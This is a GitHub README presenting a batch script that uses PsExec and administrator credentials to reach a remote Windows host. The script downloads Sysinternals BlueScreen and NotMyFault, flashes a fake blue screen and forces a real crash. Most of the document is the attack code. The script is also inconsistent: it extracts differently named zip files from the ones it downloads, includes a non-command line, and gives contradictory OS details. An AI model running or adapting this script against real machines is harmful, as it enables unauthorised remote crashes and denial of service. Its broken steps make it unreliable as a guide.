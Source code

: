 # bsod-sysinter

The following script leverages the PSExec, SysInternalsBluescreen.scr, and notmyfaultc64.exe components of Sysinternals Suite to flash a blue screen screensaver and force a BSOD against a remote Windows 10 workstation. It assumes knowledge of administrative credentials and was tested against Windows Server 2019 v1909 with the Windows Firewall in its default configuration state.

```bat
FOR /F "tokens=*" %%g IN ('powershell.exe -NoProfile -command "& {$stringAsStream = [System.IO.MemoryStream]::new(); $writer = [System.IO.StreamWriter]::new($stringAsStream); $out = (Get-Random) -join \"`n\"; $writer.write($out); $writer.Flush(); $stringAsStream.Position = 0; Get-FileHash -InputStream $stringAsStream -Algorithm SHA256 | Select-Object Hash}"') do (SET VAR=%%g)
echo %VAR%

FOR /F "tokens=*" %%g IN ('powershell.exe -NoProfile -command "& {$stringAsStream = [System.IO.MemoryStream]::new(); $writer = [System.IO.StreamWriter]::new($stringAsStream); $out = (Get-Random) -join \"`n\"; $writer.write($out); $writer.Flush(); $stringAsStream.Position = 0; Get-FileHash -InputStream $stringAsStream -Algorithm SHA256 | Select-Object Hash}"') do (SET VAR2=%%g)
echo %VAR2%

psexec.exe \\192.168.0.12 -u Administrator cmd
curl https://download.sysinternals.com/files/BlueScreen.zip --output %USERPROFILE%\%VAR%.zip
curl https://download.sysinternals.com/files/NotMyFault.zip --output %USERPROFILE%\%VAR2%.zip
tar -xf %USERPROFILE%\chicken.zip
tar -xf %USERPROFILE%\chicken3.zip
--exit session Ctrl-C--
psexec.exe -i \\192.168.0.12 -u Administrator "%USERPROFILE%\SysInternalsBluescreen.scr" /s
psexec.exe \\192.168.0.12 -u Administrator "%USERPROFILE%\notmyfaultc64.exe" crash 0x01
```

Reference: https://docs.microsoft.com/en-us/troubleshoot/windows/win32/screen-saver-command-line
